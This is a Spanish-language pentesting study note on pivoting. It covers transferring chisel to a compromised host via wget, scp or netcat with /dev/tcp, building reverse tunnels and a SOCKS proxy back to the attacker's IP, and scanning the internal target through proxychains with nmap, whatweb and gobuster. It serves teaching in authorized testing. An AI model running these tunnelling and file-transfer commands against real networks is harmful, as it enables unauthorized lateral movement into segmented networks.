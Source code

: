 ----
- Tags: #avanzado #teoria #practica
----

# ¿ Que es el **pivoting** ?

### El **pivoting** (También conocido como "*hopping*") es una técnica utilizada en pruebas de penetración y en el análisis de redes que implica el uso de una máquina comprometida para atacar otras máquinas o redes en el mismo entorno.

### Por ejemplo, si un atacante ha comprometido una máquina en una red corporativa, puede utilizar técnicas de pivoting para utilizar esa máquina como punto de salto para atacar otras máquinas en la misma red que de otra manera no serían accesibles. Esto se logra a través de la creación de túneles de comunicación desde la máquina comprometida a otras máquinas en la red.

### El pivoting puede ser utilizado para superar restricciones de seguridad que de otra manera impedirían a un atacante acceder a determinadas máquinas o redes. Por ejemplo, si una red corporativa utiliza segmentación de red para separara diferentes partes de la red, el pivoting puede ser utilizado para superar esta restricción y permitir que un atacante salte de una red a otra. 

----

# Conceptos 

### Como sabemos el pivoting consiste en movernos desde una máquina a otra, pudiendo así llegar a tener conexión con máquinas las cuales previamente no contabamos con traza, esto se puede hacer de múltiples formas, pero una herramienta muy utilizada para el pivoting es [chisel]('https://github.com/jpillora/chisel/releases'), la cual hay que correr desde la máquina atacante como **server** y desde la/s máquina/s victima/s como **client**. 

### Una vez que tengamos **chisel** en nuestra máquina, si deseamos hacer pivoting entre la *Máquina 1* con la *Máquina 2* para llegar a una *Máquina 3*, deberiamos trasladar el chisel a nuestra *Máquina 2*, para eso existen varías maneras (Ignorando el descargarlo desde google)

### Con **python**: 
```bash
# Máquina 1 en donde este el {binary}: 
python3 -m http.server {port}
# Máquina 2: 
wget http://{ip}:{port}/{binary}
```

### Si tenemos *ssh* configurado con un *authorized_keys* en el directorio root: 
```bash
scp {binary} root@{ip}:/{path}
```

### Con **netcat**: 
```bash
# Máquina 1: 
nc -nvlp {port} < {binary}
# Máquina 2: 
cat < /dev/tcp/{ip}/{port} > {name_binary}
```

### Una vez que tengamos **chisle** en la *Máquina 2* que tiene conexión con la *Máquina 3* con la cual nuestra *Máquina 1* no tiene conexión, en nuestra máquina de atacante (La *Máquina 1*) deberíamos crear el *server* de chisel: 

```bash
./chisel server --reverse -p 1234
```

### Mientras que si quisieramos compartir un puerto especifico de la Máquina 3 desde la Máquina 2 para poder acceder desde la Máquina 1, podríamos ejecutar:
```bash
# Desde nuestra Máquina 2 conectarnos a nuestro server de chisel haciend port forwarding de un puerto de la máquina 3 a nuestra máquina por el puerto 8899
./chisel client {IP_atacante}:1234 R:{Máquina3_port}:{Máquina3_IP}:8899
```

### Al ejecutar el comando de arriba,  si bien no tenemos conexión con la Máquina 3, la Máquina 2 se esta conectando a nuestro servidor de chisel brindando la disponibilidad de un puerto seleccionado de la Máquina 3 y permitiendonos acceder a este en un puerto seleccionado (Ej: 8899)

### Pero también podemos permitir acceso a todos los puertos para no tener que jugar puerto por puerto, de manera que si lo que nos interesa es tener completa conexión con la Máquina 3 desde la Máquina 1, en la Máquina 2 podríamos ejecutar el siguiente comando: 
```bash
./chisel client {IP_atacante}:1234 R:8899:socks
```

### De esta manera, por el puerto indicado (8899, si no especificamos 'R:socks' se habré por defecto el 1080) tendríamos conexión desde la Máquina 1 a la Máquina 3 pasando por este tunel. 

#### Recordemos que así como podemos establecer un tunel a la vez podemos traernos un puerto especifico así como un protocolo distinto: 
```bash
./chisel client {IP_atacante}:1234 R:socks R:443:{Máquina3_IP}:443/udp
```

### Pero una vez creado el tunel, tenemos que agregar este en el archivo **/etc/proxychains4.conf**, al tratarse de un único tunel descomentamos la línea que dice **strict_chain** y al final de todo agregamos la línea **"socks5 127.0.0.1 8899"** para indicar que cuando usemos la herramienta **proxychains** y esta leea del archivo de configuración, entienda que tiene que pasar por el tunel levantado en nuestro localhost por el puerto indicado (Ej. 8899)

### Por ende, si desde nuestra Máquina 1 (Atacante) indicamos un escaneo a la máquina 3, no podremos, pero jugando con **proxychains** esta herramienta leera del archivo  **/etc/proxychains4.conf** donde configuramos un **socks5** en nuestro localhost por el puerto indicado. 
```bash
# No encontrara el host
nmap -p- --min-rate 5000 -vvv -Pn -n {Máquina3_IP}
# Encontrara el host 
proxychains nmap -Pn -sT -p- --min-rate 5000 -vvv -n {Máquina3_IP}
```
#### ACLARACIÓN: Para que funcione nmap a través del proxychain es necesario el parametro -Pn y -sT. 

### Si queremos que el escaneo con nmap vaya más rapido, podríamos usar el siguiente comando:
```bash
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -Pn -sT -p{} -T5 -n -v --open {Máquina3_IP} 2>&1 | grep "tcp open"
```

### A partir de aquí, todo es necesario que pase por el **proxychain**, ejemplos: 
```bash
# No encontrara el host
whatweb http://{Máquina3_IP}
# Encontrara el host
proxychains whatweb http://{Máquina3_IP}

# No encontrara el host 
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://{Máquina3_IP} -r -t 20 -x php,txt,html,js,py
# Encontrara el host PERO ira bastante lento
proxychains gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://{Máquina3_IP} -r -t 20 -x php,txt,html,js,py
# Encontrara el host y sera más OPTIMO 
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://{Máquina3_IP} -r -t 20 -x php,txt,html,js,py --proxy socks5://127.0.0.1:8899
```

### A nivel de navegador, podríamos hacer uso de herramientas como **foxy proxy** para configurar un proxy de tipo **SOCKS5** y poder así llegar a la máquina, la configuración del mismo debería estar vinculada al localhost por el puerto  indicado (Ej.*8899*) 